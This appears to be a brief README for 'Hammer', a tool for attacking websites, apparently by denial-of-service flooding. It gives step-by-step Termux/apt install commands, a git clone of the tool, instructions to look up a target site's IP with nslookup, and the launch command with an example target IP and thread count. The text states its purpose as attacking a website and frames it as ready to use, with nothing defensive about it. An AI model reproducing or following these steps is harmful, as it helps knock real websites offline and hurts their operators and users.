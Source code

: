 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/armyR7/Hammer.git

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
